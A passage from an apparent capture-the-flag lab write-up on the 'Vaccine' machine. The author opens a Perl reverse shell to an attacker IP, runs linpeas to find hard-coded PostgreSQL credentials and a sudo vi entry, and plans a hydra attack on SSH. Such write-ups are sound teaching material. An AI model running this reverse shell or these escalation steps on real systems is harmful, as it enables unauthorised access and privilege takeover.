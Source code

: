 Hurrah! But had some problems getting a stable shell. It kept crashing after a couple minutes. So I created a new shell session using `perl`:

```none
perl -e 'use Socket;$i="10.10.14.39";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Privesc: `postgres` to `root`

I ran linpeas using the `postgres` user. And found a bunch of interesting stuff. To start with, there were credentials in the `dashboard.php` file - used to power the car catalog page on the web app.

```none
╔══════════╣ Finding passwords inside key folders (limit 70) - only PHP files
/var/www/html/dashboard.php:      $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
/var/www/html/index.php:    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
/var/www/html/index.php:        <input id="login__password" type="password" name="password" class="form__input" placeholder="Password" required>
```

Looking closely at the hard-coded credentials.

```none
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

Secondly, there was an SSH key for the `postgres` user. However, this is not really useful, as we already have a shell for the `postgres` user.

```none
╔══════════╣ Analizing SSH FILES Files (limit 70)

-rw------- 1 postgres postgres 2602 Jun 12  2020 /var/lib/postgresql/.ssh/id_rsa
```

Next, linpeas found an interesting entry in sudo.

```none
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                         
Matching Defaults entries for postgres on vaccine:                                                                  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

The problem is that the sudo entry requires a password. Put two and two together and determined that the password (`P@s5w0rd!`) would most likely be the password for the `postgres` account. But it might be a password from one of the other services in the starting point machines. Instead of trying manually, used `hydra` against the SSH service.
